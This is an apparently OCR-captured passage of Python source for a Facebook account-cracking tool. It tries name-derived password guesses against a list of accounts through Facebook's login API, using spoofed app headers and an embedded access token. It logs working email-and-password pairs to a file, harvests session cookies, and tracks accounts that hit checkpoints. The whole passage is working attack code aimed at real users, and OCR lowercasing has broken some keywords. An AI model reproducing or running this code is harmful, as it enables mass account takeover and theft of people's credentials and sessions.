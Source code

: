         loop += 1
     except exception as e:time.sleep(10)
   


 
    def start2(user):
      global loop,accounts
      try:
        r = requests.session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mhxw-m2\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mok : \033[1;92m{} \033[1;97mcp : \033[1;91m{}      \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:
            heads = none
            header = {"content-type": "application/x-www-form-accencoded","host": "graph.facebook.com","user-agent": heads,"x-fb-net-hni": "45204","x-fb-sim-hni": "45201","x-fb-connection-type": "unknown","x-tigon-is-retry": "false","x-fb-session-id": "nid=jiz+ynnbgbwc;pid=main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","x-fb-friendly-name": "viewerreactionsmutation","x-fb-request-analytics-tags": "graphservice","accept-encoding": "gzip, deflate","x-fb-http-engine": "liger","x-fb-client-ip": "true","x-fb-server-cluster": "true","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","connection": "keep-alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_us","client_country_code": "us","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.fb4aauthhandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=false)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mhannan-ok\033[1;92m] \033[1;97m'+acc+' \033[1;92m•\033[1;97m '+pword+'  ')
                open('/sdcard/hannan-ok.txt','a').write(f'{acc} • {pword}\n')
                if 'y' in apps:
                	check(r,coki)
                if c=='y':
                 try:  
                  q = json.loads(response.text)
                  ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                  ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                  cookies = f"sb={ssbb};{ckkk}"
                 except exception as e:print(str(e)+' | '+response.text)
                 print('\r\033[1;93m[\033[1;97mcookie\033[1;93m] \033[1;97m'+cookies)                
                 break
            elif 'checkpoint' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mhannan-cp\033[1;91m] \033[1;97m'+acc+' \033[1;91m•\033[1;97m '+pword)
                cpacc.append(acc)